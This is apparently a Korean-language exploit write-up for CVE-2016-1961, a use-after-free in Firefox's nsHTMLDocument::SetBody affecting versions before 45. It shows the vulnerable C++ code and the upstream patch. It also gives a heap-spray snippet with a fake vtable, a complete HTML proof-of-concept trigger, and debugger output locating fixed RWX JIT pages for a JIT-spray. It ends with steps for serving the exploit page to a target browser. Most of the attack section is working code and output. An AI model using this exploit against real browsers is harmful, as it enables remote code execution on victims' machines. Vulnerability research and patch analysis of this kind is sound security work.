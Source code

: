 # Firefox nsHTMLDocument SetBody Use-After-Free

## Information
- CVE : 2016-1961
- 해당 소프트웨어 : Mozilla Firefox (on Windows)
- 해당 버전 : < Firefox 45
- 취약점 유형 : Use-After-Free

## Root Cause
DOM 구조에서 body 태그를 할당하고 해제하는 과정에서 use-after-free 취약점이 발생한다. 근본적인 버그의 원인은 다음과 같다.

**dom/html/nsHTMLDocument.cpp:**
```c++
void
nsHTMLDocument::SetBody(nsGenericHTMLElement* newBody, ErrorResult& rv)
{
  Element* root = GetRootElement(); // root cause

  // The body element must be either a body tag or a frameset tag. And we must
  // have a html root tag, otherwise GetBody will not return the newly set
  // body.
  if (!newBody ||
      !newBody->IsAnyOfHTMLElements(nsGkAtoms::body, nsGkAtoms::frameset) ||
      !root || !root->IsHTMLElement() ||
      !root->IsHTMLElement(nsGkAtoms::html)) {
    rv.Throw(NS_ERROR_DOM_HIERARCHY_REQUEST_ERR);
    return;
  }

  // Use DOM methods so that we pass through the appropriate security checks.
  nsCOMPtr<Element> currentBody = GetBodyElement();
  if (currentBody) {
    root->ReplaceChild(* newBody, * currentBody, rv);
  } else {
    root->AppendChild(* newBody, rv);
  }
}
```

body 태그 혹은 iframe 태그 등으로 body element를 생성한 경우 이는 반드시 root 태그를 가지고 있어야 한다. mutation listener의 경우 DOM tree 구조상 root 태그를 참조할 수 있는데 만약 해당 태그가 해제된 경우 use-after-free 버그가 발생하게 된다. 해제된 태그들의 공간을 fake object로 채워야하는데 이는 다음과 같이 힙 스프레이를 하면 된다.
```js
for (var i = 1; i < 0x5c / 4; i++)
    fake_object[i] = unescape("%u4141%u4141");
fake_object[0] = unescape("%u4242%u4343");   // vtable

var fill_freed = [];
this.spray = () => {
    for (var i = 0; i < 0x1000; i++)
        fill_freed.push(fake_object.join(""));
};
```

## Patch
```patch
# HG changeset patch
# User Andrew McCreight <continuation@gmail.com>

Bug 1249377 - Hold a strong reference to |root| in nsHTMLDocument::SetBody. r=bz

diff --git a/dom/html/nsHTMLDocument.cpp b/dom/html/nsHTMLDocument.cpp
index 868a36a..cfd9014 100644
--- a/dom/html/nsHTMLDocument.cpp
+++ b/dom/html/nsHTMLDocument.cpp
@@ -1029,17 +1029,17 @@ nsHTMLDocument::SetBody(nsIDOMHTMLElement* aBody)
   ErrorResult rv;
   SetBody(static_cast<nsGenericHTMLElement*>(newBody.get()), rv);
   return rv.StealNSResult();
 }
 
 void
 nsHTMLDocument::SetBody(nsGenericHTMLElement* newBody, ErrorResult& rv)
 {
-  Element* root = GetRootElement();
+  nsCOMPtr<Element> root = GetRootElement();
 
   // The body element must be either a body tag or a frameset tag. And we must
   // have a html root tag, otherwise GetBody will not return the newly set
   // body.
   if (!newBody ||
       !newBody->IsAnyOfHTMLElements(nsGkAtoms::body, nsGkAtoms::frameset) ||
       !root || !root->IsHTMLElement() ||
       !root->IsHTMLElement(nsGkAtoms::html)) {
```

## PoC
```html
<html>
<head>

<script>

var ShellStage = new (function () {
/* stuff */
})();

function gc() {
    for (var i = 0; i < 0x10; i++)
        var g = new ArrayBuffer(0x1000000);
}

function main() {
    var f = document.createElement("iframe");
    document.body.appendChild(f);

    var doc = f.contentDocument;
    document.body.removeChild(f);

    doc.body.parentNode.removeChild(doc.body);

    var d = doc.createElement("div").appendChild(doc.createElement("div"));
    d.appendChild(doc.createElement("body"));

    var html = doc.documentElement;
    d.addEventListener("DOMSubtreeModified", function () {
        d.removeEventListener("DOMSubtreeModified", arguments.callee, false);

        for (var i = 0, n = html.childNodes.length; i < n; i++)
            html.removeChild(html.childNodes[0]);

        html.parentNode.removeChild(html);
        html = null;

        doc.appendChild(doc.createElement("html"));
        try {
            doc.body = doc.createElement("div");
        } catch (e) {
        }
        d.removeChild(d.childNodes[0]);

        gc();
        document.location.href = "javascript:ShellStage.spray(); document.location.href='http://google.com';";
        alert();

    }, false);

    doc.body = d.childNodes[0];
}
</script>
</head>

<body onload="main()">
</body>
</html>
```

## How to exploit?
크래시가 발생한 지점은 다음과 같다.
![crash](images/crash.png)
이전 취약점과 마찬가지로 잘못된 vtable을 참조하면서 크래시가 발생하게 되며, 이또한 JIT spray를 통해 익스플로잇할 수 있다. 해당 버전의 경우 여러 보호기법이 적용된 최신의 버전의 힙 매커니즘과 다르기 때문에 고정적으로 할당되는 JIT 페이지를 확인해야 한다. 이는 다음과 같다.
```
0:000> s -d 0x20000000 0x28000000 0x3c909090
2000002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2001002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2002002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2003002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2004002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2005002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2006002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2007002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2008002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2009002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
200a002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
...
27fa002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fb002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fc002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fd002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fe002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27ff002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d

0:000> !vprot 27fa002c  
BaseAddress:       27fa0000
AllocationBase:    27fa0000
AllocationProtect: 00000040  PAGE_EXECUTE_READWRITE
RegionSize:        00003000
State:             00001000  MEM_COMMIT
Protect:           00000040  PAGE_EXECUTE_READWRITE
Type:              00020000  MEM_PRIVATE
```

할당된 JIT 페이지들은 RWX 권한을 부여받은 것을 확인할 수 있다. 이러면 동일한 페이지 내에 스택을 할당하여 좀더 손쉽게 쉘코드를 작성할 수 있다. 브라우저의 힙 매커니즘이 크게 달라지지 않는다면 버전에 의존하지 않고 위와 같은 주소에 고정적으로 할당되는 것을 확인할 수 있었다. 즉 44.0.1 이하의 버전들에서 크게 차이나지 않는 경우 동일한 주소에 JIT 페이지가 존재하게 된다. 고로, fake object의 vtable 포인터를 위의 수 많은  JIT 페이지들의 주소로 설정하면 원하는 쉘코드를 실행할 수 있게 된다. 사용한 쉘코드는 이전 익스플로잇과 동일하다. 결과는 다음과 같다.
![poc](images/poc_44.0.1.png)

## How to run exploit?
> OS : Windows 8.1 64bit(or 32bit)  
> Firefox version : 32bit 44.0.1  
1) `exploit.html` 경로에 `python -m SimpleHTTPServer 8080` 명령어 실행
2) 대상 브라우저에서 해당 링크 접속

## Reference
- [ZDI-CAN-3574: nsHTMLDocument SetBody Use-After-Free RCE](https://bugzilla.mozilla.org/show_bug.cgi?id=1249377)